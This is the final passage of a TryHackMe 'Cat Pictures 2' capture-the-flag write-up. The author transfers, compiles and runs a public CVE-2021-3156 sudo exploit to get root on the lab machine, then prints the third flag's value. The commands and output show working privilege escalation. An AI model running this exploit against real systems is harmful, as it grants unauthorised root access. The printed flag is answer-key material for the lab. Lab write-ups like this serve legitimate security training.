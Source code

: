 Since the machine won't let us clone the repo, we can transfer it from our attacking machine:
```shell-session
$ scp -i id_rsa -r CVE-2021-3156-main bismuth@10.10.51.5:/home/bismuth/temp/
README.md                                                 100% 1187     7.4KB/s   00:00    
brute.sh                                                  100% 1994    12.3KB/s   00:00    
lib.c                                                     100%  407     2.6KB/s   00:00    
Makefile                                                  100%  264     1.6KB/s   00:00    
hax.c                                                     100% 4420    26.5KB/s   00:00
```

```shell-session
bismuth@catpictures-ii:~/temp$ ls   
CVE-2021-3156-main
bismuth@catpictures-ii:~/temp$ cd CVE-2021-3156-main/

bismuth@catpictures-ii:~/temp/CVE-2021-3156-main$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c

## Since the target is running Ubuntu 18.04, the target number specified should be 0
bismuth@catpictures-ii:~/temp/CVE-2021-3156-main$ ./sudo-hax-me-a-sandwich 0 
** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
# ls /root
ansible  docker-compose.yaml  flag3.txt  gitea
# cat /root/flag3.txt
6d2a9f8f8174e86e27d565087a28a971
```

> What is Flag 3?
> 
> Answer: `6d2a9f8f8174e86e27d565087a28a971`


## Conclusion
If this writeup helps, please consider following me on [github](https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Cat Pictures 2](https://tryhackme.com/room/catpictures2)
